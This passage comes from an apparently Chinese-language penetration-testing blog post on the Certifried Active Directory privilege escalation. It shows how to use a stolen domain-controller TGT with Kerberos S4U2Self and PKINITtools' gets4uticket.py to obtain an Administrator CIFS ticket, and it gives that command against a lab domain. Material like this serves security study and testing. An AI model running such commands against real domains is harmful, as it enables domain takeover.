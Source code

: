 ![](/assets/posts/2022-05-12-certifried-active-directory-domain-privilege-escalation/image-20220512001120655.png)

此外，我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的域控 TGT 为域管理员用户申请针对域控上其他服务的的 ST 票据。这里我们借助 Dirk-jan Mollema（[@dirkjanm](https://twitter.com/_dirkjan)）的 [PKINITtools](https://github.com/dirkjanm/PKINITtools) 工具来操作，请求的是域控制器的 CIFS 服务，相关命令如下：

```bash
python3 gets4uticket.py kerberos+ccache://pentest.com\\dc01\$:dc01.ccache@dc01.pentest.com cifs/dc01.pentest.com@pentest.com Administrator@pentest.com Administrator.ccache -v
```

![](/assets/posts/2022-05-12-certifried-active-directory-domain-privilege-escalation/image-20220512001432630.png)
